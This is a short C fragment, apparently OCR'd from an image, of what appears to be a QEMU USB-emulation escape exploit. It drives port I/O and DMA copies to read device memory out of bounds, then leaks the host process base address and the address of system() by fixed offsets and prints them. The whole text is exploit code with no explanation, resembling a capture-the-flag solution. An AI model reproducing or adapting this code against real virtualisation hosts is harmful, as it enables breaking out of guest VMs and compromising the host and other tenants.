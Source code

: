 ```c
    outw(0,0xc0a0);
    sleep(3);
    init_state();
    sleep(2);
    set_length(0x2000,0x80);
    sleep(2);
    do_copy_read();
    sleep(2);
    struct USBDevice* usb_device_tmp=dmabuf+0x2004;
    struct USBDevice usb_device;
    memcpy(&usb_device,usb_device_tmp,sizeof(USBDevice));
    uint64_t dev_addr=usb_device.ep_ctl.dev;
    uint64_t *tmp=dmabuf+0x24f4;
    long long base=*tmp;
    if(base == 0){
        printf("INIT DOWN,DO IT AGAIN");
        return 0;
}
    base-=0xee5480-0x2668c0;
    uint64_t system=base+0x2d9610;
    puts("\\\\\\\\\\\\\\\\\\\\\\\\");
    printf("LEAK BASE ADDRESS:%llx!\n",base);
    printf("LEAK SYSTEM ADDRESS:%llx!\n",system);
    puts("\\\\\\\\\\\\\\\\\\\\\\\\");
}
```

